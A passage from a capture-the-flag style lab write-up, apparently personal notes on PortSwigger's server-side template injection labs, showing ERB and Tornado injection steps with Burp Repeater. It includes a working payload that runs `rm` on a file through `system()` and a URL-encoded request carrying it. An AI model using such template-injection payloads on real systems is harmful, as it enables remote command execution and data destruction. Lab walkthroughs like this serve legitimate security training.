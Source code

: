 ```bash
to

<%= system('rm /home/carlos/morale.txt') %>

Go to: Repeater

#GET /?message=<%25%3d+system('rm+/home/carlos/morale.txt')+%25> HTTP/1.1

Response:

HTTP/1.1 200 OK

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601205114.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601205132.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601205048.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601204255.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601211229.png)

### Basic server-side template injection (code context)
```bash

# This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

# You can log in to your own account using the following credentials: wiener:peter 

Login as wiener:peter
Change preffered name to: (any other choice than the current selection)

"Nickname" 

Go to: "Home"
Click "View post"
Comment:

comment

Back to blog

Go to: HTTP history
Find:

POST /my-account/change-blog-post-author-display HTTP/1.1

Send to repeater
Change:

blog-post-author-display=user.name&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

To

blog-post-author-display=user.name]][[7*7]]&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

Go to:

```